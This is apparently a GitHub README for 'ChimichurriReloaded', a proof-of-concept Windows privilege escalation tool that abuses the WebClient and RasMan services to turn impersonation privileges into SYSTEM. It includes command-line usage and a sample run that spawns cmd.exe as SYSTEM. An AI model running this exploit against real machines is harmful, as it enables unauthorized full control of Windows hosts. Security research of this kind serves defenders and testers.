 # ChimichurriReloaded

This is a hastily put together PoC based entirely on the following blog post: https://itm4n.github.io/chimichurri-reloaded/

Basically, it's another way to get SYSTEM with SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege.  Some caveats, since it uses HTTP it does require the target to have the WebClient service installed.  This is installed by default on workstations, but not on servers.  This PoC will check for the presence of WebClient, start it if it's not already started, and attempt to trigger the vulnerability.  There are probably better ways to trigger RasMan to attempt to write to the trace file but I chose to write out a phonebook with a VPN connection and leverage rasdial to attempt to connect and trigger the attempted write.  As always, YMMV.

## Usage

```
C:\Users\reigningshells>ChimichurriReloaded.exe --help
ChimichurriReloaded 1.0.0.0
Copyright c  2020

  -p, --port                   (Default: 9876) Set local HTTP listening port.

  -c, --command                (Default: C:\Windows\System32\cmd.exe) Command to run as SYSTEM

  -a, --arguments              Arguments to pass to command you wish to run as SYSTEM.

  -u, --createprocessasuser    (Default: CreateProcessWithToken) Use CreateProcessAsUser with SeAssignPrimaryToken
                               privilege.

  -v, --verbose                Set output to verbose messages.

  --help                       Display this help screen.

  --version                    Display version information.
```

## Example
```
C:\Users\reigningshells>ChimichurriReloaded.exe -p 9999 -c "c:\windows\system32\cmd.exe" -v
[+] Starting HttpImpersonator...
[+] WebClient already running...
[+] RasMan service already running, attempting to trigger a write to the trace file...
[+] Process spawned with impersonated token...
[+] Cleaning up registry...
```
